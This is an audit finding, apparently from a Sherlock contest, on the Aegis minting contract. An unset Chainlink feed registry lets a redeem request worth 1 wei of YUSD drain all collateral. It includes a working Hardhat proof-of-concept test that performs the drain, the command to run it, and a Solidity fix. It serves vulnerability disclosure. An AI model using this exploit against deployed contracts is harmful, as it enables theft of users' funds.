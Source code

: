 Hollow Flaxen Millipede

Medium

# attacker can steal all the collateral if ChainLink `_feedRegistry` is not set or set to `address(0)`

### Summary

If `_feedRegistry` is set to `address(0)`or not set at all (which is currently allowed during deployment as well) attacker can steal all the collateral from the contract with just 1 wei YUSD.

Why this admin input related finding is valid: the explicit [if (address(_feedRegistry) == address(0))](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/4aceb235db96b2299bb95ebf16e83a24f987bf3e/aegis-contracts/contracts/AegisMinting.sol#L806) check signals that the `_feedRegistry` can be indeed the `address(0)` or potentially set to this value by the admins, which is exploitable since it returns `0,0` and it contradicts the [zero value check ](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/4aceb235db96b2299bb95ebf16e83a24f987bf3e/aegis-contracts/contracts/AegisMinting.sol#L811)done on the chainlink price-feed `answer`.  It is [explicitly](https://github.com/sherlock-audit/2025-04-aegis-op-grant-gabkov?tab=readme-ov-file#q-are-there-any-limitations-on-values-set-by-admins-or-other-roles-in-the-codebase-including-restrictions-on-array-lengths) mentioned in the README as well that the admins should be trusted to set **any** value. This behaviour should not be allowed in any cases, because of the exploit detailed bellow.

### Root Cause

At [AegisMinting.sol#L751](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/4aceb235db96b2299bb95ebf16e83a24f987bf3e/aegis-contracts/contracts/AegisMinting.sol#L751) in `_calculateRedeemMinCollateralAmount` the `collateralAmount` always going to be the user supplied `order.collateralAmount` if `_feedRegistry` is not set. 

The reason being the default [return(0, 0)](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/4aceb235db96b2299bb95ebf16e83a24f987bf3e/aegis-contracts/contracts/AegisMinting.sol#L807) which will lead to [_getAssetUSDPriceChainlink](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/4aceb235db96b2299bb95ebf16e83a24f987bf3e/aegis-contracts/contracts/AegisMinting.sol#L757) to return `(0, 0)` and skipping the calculation for the ChainLink based collateralAmount. 

Since the `aegisOracle` based calculation depending on the [_getAssetUSDPriceChainlink](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/4aceb235db96b2299bb95ebf16e83a24f987bf3e/aegis-contracts/contracts/AegisMinting.sol#L827) function, it will result in `_getAssetYUSDPriceOracle` to return `(0, 8)`. The reason being `assetUSDPrice` will be 0 ultimately allowing the attacker to pass any `collateralAmount`, because the oracle based calculations will be skipped by the `_calculateRedeemMinCollateralAmount` function even if the `aegisOracle` is set.

### Internal Pre-conditions

1. `_feedRegistry` is set to `address(0)` or not set at all

Note: if `whitelistEnabled` is set to `true` only whitelisted users can execute the attack, but considering how is easy is to bypass KYC this is not a huge limiting factor. If `whitelistEnabled` is set to `false` anyone can exploit it. 

### External Pre-conditions

1. `approveRedeemRequest` is automated and requests are not monitored

### Attack Path

1. attacker buys very small amount of YUSD (even 1 wei is enough) -> it will pass the [_checkMintRedeemLimit](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/4aceb235db96b2299bb95ebf16e83a24f987bf3e/aegis-contracts/contracts/AegisMinting.sol#L285) check
2. attacker approves YUSD for AegisMinting
3. Attacker creates a `RedeemRequest` where the `order.collateralAmount` can be set to any amount to drain the collateral asset, also setting `order.yusdAmount` to the small amount of YUSD
4. RedeemRequest being created and eventually approved -> collateral funds transferred to the attacker


### Impact

The attacker can steal all the collateral asset from the protocol.

### PoC

Paste the following test bellow [6_aegis_minting_redeem.spec.ts#L706](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/4aceb235db96b2299bb95ebf16e83a24f987bf3e/aegis-contracts/test/6_aegis_minting_redeem.spec.ts#L706) into the `success` cases. The test demonstrates the attack.

```typescript
it('(whitelisted) users can steal all the collateral if feedRegistry is not set', async () => {
        const [owner, attacker] = await ethers.getSigners()

        const { aegisMintingContract, aegisMintingAddress, assetAddress, assetContract, yusdContract, aegisConfig } = await loadFixture(deployFixture)

        await aegisMintingContract.grantRole(FUNDS_MANAGER_ROLE, owner)
        // attacker needs to be whitelisted because whitelistEnabled is set to true
        await aegisConfig['whitelistAddress(address,bool)'](attacker, true)

        // only aegis oracle is set
        const aegisOracle = await ethers.deployContract('AegisOracle', [[owner], owner])
        await aegisOracle.setOperator(owner, true)
        await aegisMintingContract.grantRole(SETTINGS_MANAGER_ROLE, owner)
        await aegisMintingContract.setAegisOracleAddress(aegisOracle)

        await aegisOracle.updateYUSDPrice('100000000')

        const collateralAmount = ethers.parseEther('100')
        // Mint asset funds simulating deposited collateral
        await assetContract.mint(aegisMintingContract, collateralAmount)

        await yusdContract.setMinter(owner)
        // mint 1 wei for the attacker (in real word scenario this would be a small swap)
        await yusdContract.mint(attacker,  1n)
        await yusdContract.setMinter(aegisMintingAddress)
        // Approve YUSD for AegisMinting contract from attacker
        await yusdContract.connect(attacker).approve(aegisMintingAddress, 1n)

        const requestId = 'test'
        const yusdAmount = 1n
        const redeemOrder = {
          orderType: OrderType.REDEEM,
          userWallet: attacker.address,
          collateralAsset: assetAddress,
          collateralAmount: collateralAmount,
          yusdAmount: yusdAmount,
          slippageAdjustedAmount: collateralAmount,
          expiry: (await time.latest()) + 10000,
          nonce: Date.now(),
          additionalData: encodeString(requestId),
        }
        const signature = await signOrder(redeemOrder, aegisMintingAddress)

        // attacker can create a valid reedem request with just 1 wei YUSD and steal the collateral assets
        await expect(aegisMintingContract.connect(attacker).requestRedeem(redeemOrder, signature)).to.be.not.reverted

        const contractYUSDBalanceBefore = await yusdContract.balanceOf(aegisMintingContract)
        const userAssetBalanceBefore = await assetContract.balanceOf(attacker)

        // attacker steals the collateralAmount from the contract with just 1 wei of YUSD if the request is approved
        await expect(aegisMintingContract.approveRedeemRequest(requestId, collateralAmount)).to.
          emit(aegisMintingContract, 'ApproveRedeemRequest').
          withArgs(requestId, owner.address, attacker.address, assetAddress, collateralAmount, yusdAmount, 0).
          emit(yusdContract, 'Transfer').
          withArgs(aegisMintingContract, ethers.ZeroAddress, yusdAmount).
          emit(assetContract, 'Transfer').
          withArgs(aegisMintingContract, attacker, collateralAmount)

        const redeemRequest = await aegisMintingContract.getRedeemRequest(requestId)

        await expect(yusdContract.balanceOf(aegisMintingContract)).to.be.eventually.equal(contractYUSDBalanceBefore - yusdAmount)
        // successful exploit
        await expect(assetContract.balanceOf(attacker)).to.be.eventually.equal(userAssetBalanceBefore + collateralAmount)
        expect(redeemRequest.status).to.be.equal(RedeemRequestStatus.APPROVED)
      })
```

then run

```sh
npx hardhat test test/6_aegis_minting_redeem.spec.ts --grep '\(whitelisted\) users can steal all the collateral if feedRegistry is not set'
```

### Mitigation

In my opinion the `_feedRegistry` should not be allowed to be set to the zero address at all, because of the potential exploit it can cause.

The easiest mitigation would be to explicitly check in [_setFeedRegistryAddress](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/4aceb235db96b2299bb95ebf16e83a24f987bf3e/aegis-contracts/contracts/AegisMinting.sol#L691) if `_registry` is `address(0)` enforcing it from beginning to be set properly and also avoiding future user errors setting it to the zero address.

```solidity
function _setFeedRegistryAddress(FeedRegistryInterface _registry) internal {
    if(address(_registry) == address(0)) revert ZeroAddress();
    _feedRegistry = _registry;
    emit SetFeedRegistryAddress(address(_registry));
}
```

This would allow to delete the [check](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/4aceb235db96b2299bb95ebf16e83a24f987bf3e/aegis-contracts/contracts/AegisMinting.sol#L806) which resulted the exploit to be removed completely.

Inherently I would consider the same changes for `aegisOracle` as well for consistency and better security, but the missing ChainLink oracle is the main root cause of this exploit.